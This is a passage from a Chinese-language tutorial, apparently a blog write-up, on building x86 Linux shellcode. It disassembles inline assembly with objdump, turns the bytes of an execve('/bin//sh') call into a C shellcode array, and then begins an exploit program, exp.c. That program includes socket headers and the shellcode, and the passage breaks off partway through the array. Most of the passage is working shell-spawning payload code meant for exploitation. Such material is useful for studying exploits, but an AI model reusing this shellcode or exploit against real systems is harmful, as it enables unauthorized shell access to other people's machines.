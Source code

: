 然后通过`objdump -d -mi386:intel a.out`命令拿到main函数中内联汇编代码对应的机器码

其中`-mi386:intel`指定汇编风格

```asm
00001189 <main>:
    1189:	55                   	push   ebp
    118a:	89 e5                	mov    ebp,esp
    118c:	e8 24 00 00 00       	call   11b5 <__x86.get_pc_thunk.ax>
    1191:	05 6f 2e 00 00       	add    eax,0x2e6f
    1196:	31 c0                	xor    eax,eax          //内联汇编开始
    1198:	50                   	push   eax
    1199:	68 6e 2f 73 68       	push   0x68732f6e
    119e:	68 2f 2f 62 69       	push   0x69622f2f
    11a3:	89 e3                	mov    ebx,esp
    11a5:	50                   	push   eax
    11a6:	89 e1                	mov    ecx,esp
    11a8:	89 e2                	mov    edx,esp
    11aa:	b0 0b                	mov    al,0xb
    11ac:	cd 80                	int    0x80           //内联汇编结束
    11ae:	b8 00 00 00 00       	mov    eax,0x0
    11b3:	5d                   	pop    ebp
    11b4:	c3                   	ret    

```



至此，shellcode即为

```c
int main()
{
    char shellcode[] =  "\x31\xc0"              /*xor    eax,eax*/
                        "\x50"                  /*push   eax*/
                        "\x68\x6e\x2f\x73\x68"  /*push   0x68732f6e*/
                        "\x68\x2f\x2f\x62\x69"  /*push   0x69622f2f*/
                        "\x89\xe3"              /*mov    ebx,esp*/
                        "\x50"                  /*push   eax*/
                        "\x89\xe1"              /*mov    ecx,esp*/
                        "\x89\xe2"              /*mov    edx,esp*/
                        "\xb0\x0b"              /*mov    al,0xb*/
                        "\xcd\x80";             /*int    0x80*/
    return 0;
}
```



### 编写攻击程序

直接上源码了

```c
//exp.c
#include <stdlib.h>        //malloc, free
#include <string.h>        //strxxx
#include <stdio.h>         //printf scanf

#include <sys/socket.h>    //socket, connect, send, recv
#include <arpa/inet.h>     //inet_pton
#include <netinet/in.h>    //struct sockaddr, struct sockaddr_in
#include <unistd.h>        //sleep(), close()
#include <netdb.h>         //gethostbyname(), struct hostent

char shellcode[] =  "\x31\xc0"
					"\x50"
					"\x68\x6e\x2f\x73\x68"
					"\x68\x2f\x2f\x62\x69"
```